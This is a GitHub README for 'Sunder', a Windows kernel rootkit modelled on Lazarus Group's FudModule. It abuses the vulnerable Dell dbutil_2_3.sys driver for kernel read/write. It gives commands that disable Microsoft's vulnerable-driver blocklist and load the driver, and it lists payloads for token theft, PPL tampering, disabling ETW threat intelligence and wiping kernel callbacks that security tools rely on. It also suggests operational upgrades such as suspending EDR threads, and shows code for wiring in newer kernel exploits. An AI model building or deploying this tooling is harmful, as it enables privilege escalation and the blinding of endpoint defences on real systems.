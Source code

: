 # Sunder
Windows rootkit modeled after Lazarus Group's [FudModule rootkit](https://decoded.avast.io/janvojtesek/lazarus-and-the-fudmodule-rootkit-beyond-byovd-with-an-admin-to-kernel-zero-day/). Reference [this version of Sunder](Sunder-appid_exploit) for an example of the appid.sys driver exploit, which was utilized by Lazarus Group FudModule rootkit.

Sunder's vulnerable driver in this GitHub repository is Dell's dbutil_2_3.sys driver, since it is a simple vulnerability and therefore makes the rootkit-specific code easier to read. This driver **is blocked** by Microsoft. Execute the following commands to allow blocked drivers *(bcdedit command not required on Windows 11)*:
```
bcdedit /debug on	
powershell -c Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\CI\Config\ -Name VulnerableDriverBlocklistEnable 0
shutdown -r
```

This rootkit is designed to work with various kernel exploits. This allows you to change the vulnerable driver utilized to gain kernel read and write primitives. Updating the vulnerable driver is necessary to evade Microsoft's [blocked driver list](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/app-control-for-business/design/microsoft-recommended-driver-block-rules).

![PPL editing payload](images/ppl.PNG)

Sunder contains the following payloads ([See the images directory for screenshots](images)):
- Token Stealing - Steal a token from any process (spawns cmd.exe, but can be modified to spawn any process)
- Token Escalation - Add permissions to a given process 
- ACL Editing - Opens handle to target process despite integrity or PPL protection level
	- *Note: Offsets for ACL editing have only been tested against winlogon.exe, and may need updated for other target processes*
- Enable/Disable PPL - Tamper with process PPL protection levels 
- Disable ETWti - Disable ETW threat intelligence (kernel-mode hooking)
- Clear process callbacks - Clear all process creation notification callbacks
- Clear thread callbacks - Clear all thread creation notification callbacks
- Clear DLL callbacks - Clear all DLL image load notification callbacks 

## Requirements
The vulnerable [dbutil_2_3.sys](dbutil_2_3.sys) driver must be running on the target. Download it from this repository, then install it:
```
# Set the binPath to the full filepath to dbutil_2_3.sys
sc create dellserv binPath= C:\dbutil_2_3.sys type= kernel
sc start dellserv
```

*Note: This driver is in Microsoft's block list. Installation is blocked on many systems. Update the driver and kernel exploit to execute on systems that employ driver block lists.*

Run this exploit from medium integrity or higher. You must be in high integrity to install the vulnerable driver. 

## Usage
Build the exploit in Visual Studio (x64, Release). Execute sunder.exe. You will receive a prompt asking which payload to run. Enter a number to execute a post-exploitation payload. 

## Stability
The dbutil_2_3.sys exploit (CVE-2021-21551) is highly stable. Post-exploitation functionality uses hardcoded offsets for certain Windows structs; therefore, executing the rootkit on untested OS versions may result in a Blue Screen of Death (BSOD).

The rootkit has been tested on the following Windows versions:
- Windows 10 Pro build 19045
- Windows 11 Enterprise build 22621
- Windows 11 Enterprise build 26100 

## Improvements and Additions
The following are ways the rootkit can (and should) be improved for operational use. I will not be updating the public release to include these features.

### Improvements
- Include offsets for various Windows OS versions
- Create the Kernel driver service from rootkit code
- Clean up driver and service on exit
- Convert interactive post-ex prompts into commandline arguments
- Encrypt or hash plaintext strings

### Feature Additions
- Disable object/registry callbacks
- Disable ETW providers
- Disable minifilter drivers
- Suspend EDR threads 

## Updating the Exploit
The following sections describe how to utilize the rootkit with newer kernel exploits.

### Background Information
Understanding the following structs and function prototypes is necesssary for proper usage of this library.

EXP_OUT is a struct containing necessary values for successful post-exploitation. This struct allows post-exploitation to avoid making syscalls. Avoiding syscalls is vital as some exploits leave the running process in a sensitive state that will Blue Screen of Death (BSOD) from syscalls (such as when corrupting PreviousMode). 

The EXP_OUT struct is as follows:
```
// Define struct passed in from exploit (Add additional parameters if necessary)
//	Set any addresses resolved with GetProcAddress in advance, to avoid BSOD in PreviousMode exploits
typedef struct _EXP_OUT
{
	LPVOID readprimitive;				//	Cast this to _readqword in rootk()
	LPVOID writeprimitive;				//	Cast this to _writeqword in rootk()
	DWORD myProcessId;				// To avoid using GetCurrentProcessId() in post-ex code
	HANDLE vulnDriver;				// For use in cases where IOCTLs must be called for every read/write 
	ULONGLONG systemEprocess;			// To iterate through EPROCESS list
	ULONGLONG KeInsertQueueApc;			// To find set ETWti bit and disable it
	ULONGLONG PsSetCreateProcessNotifyRoutine;	// To clear process callbacks
	ULONGLONG PsSetCreateThreadNotifyRoutine;	// To clear thread callbacks
	ULONGLONG PsSetLoadImageNotifyRoutine;		// To clear DLL (image load) callbacks
} EXP_OUT, * PEXP_OUT;
```

Read and Write Primitives are vital for this library's post-exploitation features. Executing code in the modern Windows kernel is difficult due to mitigations, and may result in higher chance of BSOD. 'Read primitives' read a value from an arbitrary address. 'Write primitives' write an arbitrary value at an arbitrary address.

This library uses the following prototypes for read and write primitive functions:
```
// Define read and write primitive functions (hDriver can be NULL in some exploits)
typedef ULONGLONG(__fastcall* _readqword)(
	HANDLE hDriver,
	ULONGLONG readwhere
	);
typedef void(__fastcall* _writeqword)(
	HANDLE hDriver,
	ULONGLONG writewhere,
	ULONGLONG writewhat
	);
```

### Adding the Code
Include the 'rktools.cpp' and 'rktools.h' files in your C++ exploit project.
```
#include "rktools.h"
```

Instantiate the EXP_OUT struct (naming 'rootStruct' in this example):
```
	PEXP_OUT rootStruct = new EXP_OUT;
```

Set read and write primitive function pointers. This library is designed for functions that read/write 64-bit values (QWORDs) from/to 64-bit addresses.
```
	rootStruct->readprimitive  = (LPVOID)readqword;
	rootStruct->writeprimitive = (LPVOID)writeqword;
```

Obtain the process ID (PID) of the current process:
```
	DWORD myPid = GetCurrentProcessId();
	rootStruct->myProcessId = myPid;
```

Use your exploit's read primitive to obtain values of the following kernel-mode functions. This step is OPTIONAL, but necessary to leverage full post-exploitation functionality. *See [this code](Sunder/Sunder/Sunder.cpp) from lines 149-201 for an example of how to find the necessary kernel-mode functions.*
```
	rootStruct->KeInsertQueueApc			= KeInsertQueueApcAddr;
	rootStruct->PsSetCreateProcessNotifyRoutine	= ProcCallbackAddr;
	rootStruct->PsSetCreateThreadNotifyRoutine	= ThreadCallbackAddr;
	rootStruct->PsSetLoadImageNotifyRoutine		= DllCallbackAddr;
```

Populate rootStruct with the vulnerable kernel driver's handle. This is only required in certain cases, such as when an IOCTL must be called for every use of read/write primitives.
```
	rootStruct->vulnDriver = hDriver;	// Pass vulnerable driver's handle to struct
```

Identify the kernel-mode address of an EPROCESS object (preferably the SYSTEM process). This will enable post-exploitation to iterate through kernel EPROCESS structures.
``` 
	rootStruct->systemEprocess = iterProc;	// Set SYSTEM EPROCESS pointer
```

Finally, call the rootkit. This will open an interactive menu to execute various kernel-mode payloads.
```
    	rootk(rootStruct);			// Call rootkit functionality for post-exploitation
```


